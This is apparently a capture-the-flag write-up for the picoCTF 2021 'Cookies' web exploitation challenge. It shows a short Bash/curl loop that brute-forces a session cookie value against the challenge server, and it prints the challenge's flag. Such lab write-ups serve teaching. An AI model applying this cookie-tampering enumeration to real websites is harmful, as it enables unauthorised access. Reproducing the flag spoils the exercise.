 # :briefcase: Cookies

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2021`
- **Tag**: `None`
- **Author**: `madStacks`
- **Date**: `11/06/2025`

---

# :pencil: Description

Who doesn't love cookies? Try to figure out the best one. [link](https://play.picoctf.org/practice/challenge/173)

---

# :unlock: Solution

1. Access the link

    ![image1](images/image1.png)

2. Entered `snickerdoodle` into the input field and clicked the `Search` button`>` A message was displayed on the page

    ![image2](images/image2.png)

3. Checked the cookie `>` We have a cookie named `name` with the value `0`

    ![image3](images/image3.png)

4. Changed the cookie value to `1` and reloaded the page `>` A new message appeared

    ![image4](images/image4.png)

5. So the flag might be revealed at a certain value, therefore we can write a Bash script to automate the process.

    ```sh
    #!/bin/bash

    for i in {0..24}
    do
        cookie="name=$i"
        response=$(curl -s -H "Cookie: $cookie" "http://mercury.picoctf.net:21485/check")

        if echo "$response" | grep -q "picoCTF"; then
            echo "$response" | grep -i "picoCTF"
        fi
    done
    ```

6. We found it

    ![image5](images/image5.png)

---

# :white_flag: Flag

> picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}

---

# :writing_hand: Notes

- `grep -i, --ignore-case` - Ignore case distinctions in patterns and input data, so that characters that differ only in case match each other.
- `grep -q, --quiet, --silent` - Quiet; do not write anything to standard output. Exit immediately with zero status if any match is found, even if an error was detected.

---

# :books: Resources

- [Bash Reference Manual](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html)
- [Requests: HTTP for Humans™ — Requests 2.32.4 documentation](https://requests.readthedocs.io/en/latest/)
- [GNU Grep 3.12](https://www.gnu.org/savannah-checkouts/gnu/grep/manual/grep.html)
- [curl](https://github.com/curl/curl/blob/master/docs/MANUAL.md)

---

# :hammer_and_wrench: Tools used

- `Bash` script
- `grep` - print lines that match patterns 
- `curl` - transfer a URL

